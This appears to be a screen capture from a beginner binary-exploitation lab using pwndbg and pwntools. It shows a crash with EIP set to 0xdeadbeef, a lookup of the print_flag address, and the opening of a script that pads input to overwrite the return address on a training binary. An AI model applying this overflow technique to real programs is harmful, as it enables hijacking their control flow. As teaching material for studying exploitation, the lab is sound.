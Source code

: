 ```
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 195 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from intro2pwn3...(no debugging symbols found)...done.
pwndbg> r < attack
Starting program: /home/buzz/IntroToPwntools/IntroToPwntools/cyclic/intro2pwn3 < attack
I run as dizmas.

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0xff982138 ◂— 0x61616161 ('aaaa')
 EBX  0x61616168 ('haaa')
 ECX  0xf7ed25c0 (_IO_2_1_stdin_) ◂— 0xfbad2088
 EDX  0xf7ed389c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x0
 ESI  0xf7ed2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
 EBP  0x61616169 ('iaaa')
 ESP  0xff982160 —▸ 0xff982100 —▸ 0xff982158 ◂— 0x61616169 ('iaaa')
 EIP  0xdeadbeef
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
Invalid address 0xdeadbeef










─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xff982160 —▸ 0xff982100 —▸ 0xff982158 ◂— 0x61616169 ('iaaa')
01:0004│     0xff982164 ◂— 0x0
02:0008│     0xff982168 ◂— 0x0
03:000c│     0xff98216c —▸ 0xf7d12f21 (__libc_start_main+241) ◂— add    esp, 0x10
04:0010│     0xff982170 —▸ 0xf7ed2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
05:0014│     0xff982174 —▸ 0xf7ed2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
06:0018│     0xff982178 ◂— 0x0
07:001c│     0xff98217c —▸ 0xf7d12f21 (__libc_start_main+241) ◂— add    esp, 0x10
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0xdeadbeef
──────────────────
print& print_flag
$1 = (<text variable, no debug info> *) 0x8048536 <print_flag>

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ nano pwn_cyclic.py 
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ cat pwn_cyclic.py 
from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0x8048536)
```